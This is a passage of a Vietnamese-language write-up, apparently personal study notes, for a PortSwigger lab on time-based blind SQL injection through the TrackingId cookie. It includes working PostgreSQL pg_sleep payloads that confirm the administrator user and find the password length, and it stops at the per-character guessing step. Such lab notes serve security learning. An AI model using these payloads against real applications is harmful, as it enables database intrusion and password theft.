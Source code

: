 ### [Lab 14: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

**Lab description**: Ứng dụng chứa lỗ hổng **Blind SQL Injection** tại cookie `TrackingId`. Kết quả của truy vấn không được hiển thị trực tiếp, và ứng dụng không phản hồi khác biệt dựa trên việc truy vấn trả về dữ liệu hay gây lỗi. Tuy nhiên, do truy vấn được thực thi đồng bộ, có thể kích hoạt **độ trễ có điều kiện** để suy luận thông tin. 

Cơ sở dữ liệu chứa bảng `users` với các cột `username` và `password`. Mục tiêu là khai thác lỗ hổng để tìm mật khẩu của người dùng `administrator`.

**Steps**: 

- Kiểm tra độ trễ củ response: Như lab trước
- Điều chỉnh query, điều kiện TRUE => có độ trễ trong response:

```sql
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

=> tồn tại user `administrator`

- Sử dụng truy vấn điều kiện và độ trễ response để dự đoán số kí tự password:

`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)=20)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

![image-20250601124916100](./image/image-20250601124916100.png)

- Dự đoán từng kí tự của password, send req to intruder tab: 
